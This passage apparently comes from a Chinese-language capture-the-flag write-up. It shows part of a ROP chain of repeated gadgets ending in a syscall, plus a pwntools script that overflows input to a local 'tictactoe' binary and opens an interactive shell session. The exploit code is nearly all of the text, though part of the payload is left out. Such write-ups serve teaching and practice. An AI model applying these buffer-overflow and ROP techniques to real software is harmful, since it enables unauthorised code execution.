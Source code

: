 ```shell
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000402bf4) # syscall
```

```python
from struct import pack
from pwn import context, process

context.log_level = "debug"
io = process("./tictactoe")

payload = b"(2,2)" + (143 - 5) * b'a' + b"\x01" + (152 - 144) * b'a'
# 省略重复的 payload 部分。
# 注意在 Python 3 中 struct.pack 返回的是 bytes 类型，所以为了拼接，payload 也需要是 bytes 类型。
io.recvuntil("): ")
io.sendline(payload)
io.interactive()
```

## 附录

题目文案使用 <https://github.com/BeautyYuYanli/full-mark-composition-generator> 生成。